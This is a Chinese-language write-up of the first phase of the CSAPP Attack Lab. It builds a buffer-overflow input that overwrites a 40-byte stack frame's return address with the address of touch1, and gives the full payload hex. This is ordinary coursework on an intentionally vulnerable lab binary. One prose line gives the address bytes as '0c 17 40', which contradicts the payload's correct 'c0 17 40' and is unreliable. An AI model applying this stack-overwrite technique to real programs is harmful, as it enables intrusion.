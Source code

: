 `sub    $0x28,%rsp`分配了大小为40字节的栈空间，回顾课本的知识

如果分配了24字节大小的栈，输入了7个字符，如下图所示

![image-20211029164622270](实验3：AttackLab.assets/image-20211029164622270.png)

则超出栈帧的部分，会溢出，破坏返回地址的内容。

所以，我们要构造一个，输入了40个字节的内容，后面位置40-47的返回地址写入touch1的起始地址。也就是0x4017c0

由于使用hex2raw会用小端的顺序解析。所以返回地址应该是`0c 17 40 00 00 00 00 00`，而前面40个字节可以随意填写

故可以构造一个touch1.txt的文件，内容如下

```shell
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   
c0 17 40 00 00 00 00 00   
```

> 第一行对应0-7字节
>
> 第二行对应8-15字节
>
> 第三行对应16-23字节
>
> 第四行对应24-31字节
>
> 第五行对应32-39字节
>
> 第六行对应40-47字节，即返回地址

验证如下：

![image-20211029165448354](实验3：AttackLab.assets/image-20211029165448354.png)
